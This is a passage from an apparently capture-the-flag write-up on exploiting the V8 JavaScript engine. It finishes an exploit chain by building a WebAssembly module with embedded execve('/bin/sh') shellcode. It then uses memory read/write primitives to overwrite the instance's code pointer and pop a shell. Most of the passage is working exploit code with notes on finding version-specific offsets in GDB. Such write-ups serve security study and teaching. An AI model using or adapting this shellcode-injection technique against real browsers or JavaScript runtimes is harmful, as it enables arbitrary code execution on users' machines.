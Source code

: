 Note that we also need to overwrite the length. In this case it is kept the same as `victim`'s length (times 2 due to Smi representation in V8) for simplicity.

We now have all the primitives needed to achieve RCE!
From `args.gn` we can see that there is no sandbox, hence we can use the WASM instance technique to get a shell:

```js
var wasm_code = new Uint8Array([
  0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112,
  0, 0, 5, 3, 1, 0, 1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109,
  97, 105, 110, 0, 0, 10, 133, 1, 1, 130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0,
  0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144, 235, 11, 57, 3, 0, 65, 0,
  68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98, 105,
  110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11,
  57, 3, 0, 65, 0, 68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68,
  72, 137, 231, 144, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 49, 246, 72,
  49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144, 144, 235, 11, 57,
  3, 0, 65, 42, 11,
]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var get_shell = wasm_instance.exports.main;
// Do **NOT** call the function get_shell, otherwise this won't work.
// get_shell();

// Get the address of the wasm instance trusted data
// %DebugPrint(wasm_instance);
console.log("[+] wasm instance @ " + hex(addrof(wasm_instance)));
var trusted_data = arb_read(addrof(wasm_instance) + 8n) >> 32n;
console.log("[+] trusted_data @ " + hex(trusted_data));
var trusted_data_ptr_to_code = trusted_data + 0x8n * 5n;
var code = arb_read(trusted_data_ptr_to_code);
console.log("[+] code @ " + hex(code));
var shellcode_addr = code + 0x900n + 0x27n;
arb_write(trusted_data_ptr_to_code, shellcode_addr);
get_shell();
```

Note that the offset inside of `code` to find the correct `shellcode_addr` value are dependent on the V8 version (and probably compile arguments), thus that offset needs to be found from GDB.
